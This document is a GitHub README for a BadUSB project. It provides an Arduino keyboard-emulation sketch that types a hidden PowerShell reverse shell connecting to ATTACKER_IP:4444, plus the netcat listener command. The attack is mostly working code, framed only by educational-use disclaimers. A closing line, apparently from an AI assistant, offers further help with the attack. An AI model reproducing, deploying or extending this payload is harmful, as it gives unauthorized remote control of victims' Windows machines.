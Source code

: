 # 🛠️ Malicious USB Reverse Shell (Windows → Linux)

This project demonstrates a malicious USB device capable of establishing a **reverse shell** on a Windows machine by emulating keyboard input (HID attack). It uses **PowerShell** and **Netcat** for remote command execution and control from a Linux listener.

> ⚠️ **WARNING**: This project is intended **strictly for educational and authorized penetration testing purposes**. Unauthorized use on systems you do not own is **illegal and unethical**.

---

## 📚 Table of Contents

- [Features](#-features)
- [Linux Listener Setup](#️-linux-listener-setup)
- [Arduino HID Payload](#️-arduino-hid-payload-eg-arduino-leonardo-digispark-malduino)
- [Result](#-result)
- [Disclaimer](#-disclaimer)
- [Related Topics](#-related-topics)
- [Ethical Use Only](#-ethical-use-only)

---

## 📌 Features

- USB device emulates a keyboard on plug-in.
- Automatically opens PowerShell.
- Executes a reverse shell to a specified Linux attacker IP.
- Linux listener gains full shell access to the compromised Windows system.
- Tested across multiple Windows environments for reliability.

---

## 🖥️ Linux Listener Setup

On your attack machine (Kali, Parrot, etc.), run:

```bash
nc -lvnp 4444
```
## ⚙️ Arduino HID Payload (e.g., Arduino Leonardo, Digispark, MalDuino)

- Flash the following sketch to your HID-capable device:

```cpp
#include "Keyboard.h"

void setup() {
  delay(3000);  // Wait for OS to detect the device

  // Open Run dialog
  Keyboard.press(KEY_LEFT_GUI);
  Keyboard.press('r');
  Keyboard.releaseAll();
  delay(500);

  // Open PowerShell
  Keyboard.print("powershell");
  Keyboard.press(KEY_RETURN);
  Keyboard.releaseAll();
  delay(1000);

  // PowerShell reverse shell payload
  Keyboard.print("powershell -nop -w hidden -c \"$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (Invoke-Expression -Command $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close()\"");
  Keyboard.press(KEY_RETURN);
  Keyboard.releaseAll();
}

void loop() {
  // Nothing
}
```
✅ Replace ATTACKER_IP with your Linux attack box IP address.

## 🧪 Result
- When the USB is plugged into a Windows machine:

- The system recognizes it as a keyboard.

- It opens PowerShell silently.

- It connects to the attacker's listener.

- A reverse shell is established.

## 🧼 Disclaimer

This project is for educational and research purposes only.


## ❌ Never deploy this payload on unauthorized systems.

✅ Always have explicit consent when testing on real environments.

## 📚 Related Topics

- HID Attacks

- Rubber Ducky / MalDuino / Digispark

- Windows PowerShell Reverse Shells

- Netcat Listener

- Red Team Tactics

## 🔒 Ethical Use Only
Use responsibly. Learn legally.
```markdown
Let me know if you'd like:
- A GIF or image showing the attack in action
- Instructions for setting up Arduino IDE for Digispark or Leonardo
- A separate `.ino` file export
```
